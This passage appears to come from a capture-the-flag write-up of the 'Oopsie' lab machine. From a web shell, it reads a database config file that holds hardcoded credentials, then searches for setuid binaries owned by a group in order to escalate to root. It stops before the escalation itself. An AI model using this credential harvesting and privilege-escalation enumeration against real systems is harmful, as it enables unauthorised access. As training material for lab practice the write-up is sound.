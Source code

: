 ```
www-data@oopsie:/$ ls /var/www/html/cdn-cgi/login
ls /var/www/html/cdn-cgi/login
admin.php  db.php  index.php  script.js
www-data@oopsie:/$ cat /var/www/html/cdn-cgi/login/db.php
cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```



### Privilege Escalation

The id command reveals that robert is a member of the bugracker group. We can enumerate the filesystem to see if this group has any special access.

![image-20210308212342372](images\image-20210308212342372.png)

```
www-data@oopsie:/$ find / -type f -group bugtracker 2>/dev/null
find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker
www-data@oopsie:/$ ls -al /usr/bin/bugtracker
ls -al /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```



There is a bugtracker binary, and the setuid but is set. Let's run it and see what it does.

